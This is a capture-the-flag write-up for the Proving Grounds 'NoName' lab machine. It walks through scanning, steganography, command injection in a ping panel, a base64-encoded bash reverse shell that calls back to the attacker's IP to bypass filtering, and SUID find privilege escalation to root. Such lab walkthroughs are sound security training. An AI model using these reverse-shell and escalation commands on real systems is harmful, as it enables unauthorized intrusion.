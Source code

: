 ```yaml
---
title: "Proving Grounds - NoName"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/noname.png
categories: [Offensive security, Intermediate]
tags: [steganography, stegseek, ffuf, SUID, find, nmap, RCE, linux]
---
```


| **Room**   | **NoName**                          |
| ---------- | ----------------------------------- |
| Author     | **offensive-security**              |
| Difficulty | Intermediate                        |

> This is an intermediate machine in offensive security proving grounds testing on some simple streganography and basic enumeration skills.
{: .prompt-tip }

# Let's get started
## Scanning and enumeration
First thing first, we do a simple nmap scan from which we get only `port 80` open. The apache server running on this specific port seems a little outdated. It can a good thing to check if we miss anything to attack.

```shell
└─$ nmap -T4 -sCV 192.168.222.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 23:10 EAT
Nmap scan report for 192.168.222.15
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
23/tcp   filtered telnet
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
1053/tcp filtered remote-as
3007/tcp filtered lotusmtap
7921/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```
Opening the port, we get a `fake admin area` panel with an input field. It seemed to be a page where the admin can taste wether the machines are up by pinging them. Not here though, its fake, it time we find the real one.

![image](/assets/img/Posts/noname/fake-admin.png)

Whenever we get to a website, we are always recommended to brute force for hidden web directories in the server. We are going to use ffuf. It gives us `admin` directory.

![image](/assets/img/Posts/noname/admin.png)

Visiting the directory we find nothing but images. huh, steganograpphyyyy?? got myself wondering. well. Viewing the source code, we get to see that there are four of them with some `jpg` images among, them. EASY!!

![image](/assets/img/Posts/noname/admin-dash.png)

![image](/assets/img/Posts/noname/images.png)

Downloading them and starting checking for hidden messages in them, i get something in one of the files, which looks like user names. aaargh!

![image](/assets/img/Posts/noname/user.png)

```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ cat new.jpeg.out 
admin
Admin
root
admin1
msfadmin
Admin1
```

Checking on the next one, we find a base64 string, nice. 

![image](/assets/img/Posts/noname/bas64.png)

Decoding the string from our terminal using the command `echo "base64-string" | base64 -d`, We get another directory. Impressive!.

![image](/assets/img/Posts/noname/superadmin.png)

Visiting it, we get see the legit ping panel.

![image](/assets/img/Posts/noname/super-ping.png)

Seng a simple ping scan `ping <ip>` does not bring anything, using a pipe symbol `|`to chain the commands, and typing `whoami` returns `www-data`.

![image](/assets/img/Posts/noname/rce.png)

This means that we have `code executation`. with a well crafted payload, we can get a reverse shell on the box. Sending a simple revershell on the ping platform does not connect back which made me assume that there are some filtering on the commands are ran.

## Initial access
We get our one-liner bash revershell `bash -i >& /dev/tcp/192.168.45.205/1337 0>&1` and pass it through base64 to encode it.

![image](/assets/img/Posts/noname/bencode.png)

Then echo the base64 string and pipe it to base64 and decode it, then pipe the output to means which executes it. 
```bash
ping 192.168.45.205 | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwNS8xMzM3IDA+JjEK" | base64 -d | bash
```
We get a shell as `www-data`
```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ nc -nlvp 1337                                 
listening on [any] 1337 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.222.15] 49076
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ 

```
## Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell.

Going to the home directory, we find two users, `haclabs` and `yash`. Accessing `yash's` directory, we find our flag. 

```shell
www-data@haclabs:/home/yash$ ls -la
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jul  1 01:35 local.txt
www-data@haclabs:/home/yash$ cat local.txt
<redacted>
www-data@haclabs:/home/yash$ 
```
## Privilege escalation
Who is saying linpeas? Not now. First we need to some manual enumeration before we run linpeas. running a `sudo -l`, we are prompted to enter www-data password. That's a dead end, We then move on and check for any commands that have `SUID` bits set. And we get that we can run `find` as root.

![image](/assets/img/Posts/noname/suid.png)

We then check the command we can ran to abuse the permissions given to us in **[GTFObins]**(https://gtfobins.github.io/) and get root's shell.

![image](/assets/img/Posts/noname/suid-gtfobins.png)

Running the command `find . -exec /bin/sh -p \; -quit` gives us a `#`shell.
```shell
www-data@haclabs:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag3.txt  proof.txt
# cat proof.txt
<redacted>
# 
```

I hope you enjoyed the write up!!. thank you 😁